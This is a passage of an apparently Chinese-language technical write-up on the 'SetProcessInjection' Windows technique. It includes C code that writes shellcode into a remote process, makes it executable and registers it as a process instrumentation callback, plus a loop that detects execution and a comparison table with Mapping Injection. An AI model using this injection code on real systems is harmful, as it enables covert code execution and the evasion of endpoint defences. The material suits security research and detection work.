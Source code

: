 ```c
// 4. 写入 shellcode
LPVOID shellcodeAddress = VirtualAllocEx(hProc, NULL, 49, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
WriteProcessMemory(hProc, shellcodeAddress, shellcodeTemplate, 49, NULL);
VirtualProtectEx(hProc, shellcodeAddress, 49, PAGE_EXECUTE_READWRITE, &oldProtect);

// 5. 设置回调
PROCESS_INSTRUMENTATION_CALLBACK_INFORMATION info;
info.Version = 0;
info.Reserved = 0;
info.Callback = shellcodeAddress;
NtSetInformationProcess(hProc, ProcessInstrumentationCallback, &info, sizeof(info));
```

### 执行监控

```c
// 监控 shellcode 首字节变化
BYTE originalFirstByte = shellcodeTemplate[0];  // 0x55 (push rbp)
BYTE content[1];

while (1) {
    ReadProcessMemory(hProc, shellcodeAddress, &content, 1, &bytesRead);

    if (content[0] != originalFirstByte) {
        printf("[+] Callback executed!\n");
        break;
    }

    Sleep(5000);
}
```

## 与相关技术的对比

### vs Mapping Injection

| 特性 | SetProcessInjection | Mapping Injection |
|-----|---------------------|-------------------|
| 内存分配 | VirtualAllocEx | MapViewOfFile3 |
| 内存写入 | WriteProcessMemory | 直接写入共享内存 |
| 回调设置 | ProcessInstrumentationCallback | ProcessInstrumentationCallback |
| Payload 加密 | 支持 AES-256 (原版) | 无 |
| 复杂度 | 中等 | 较高 |
| API 调用 | 传统 API | 文件映射 API |

### vs CreateRemoteThread
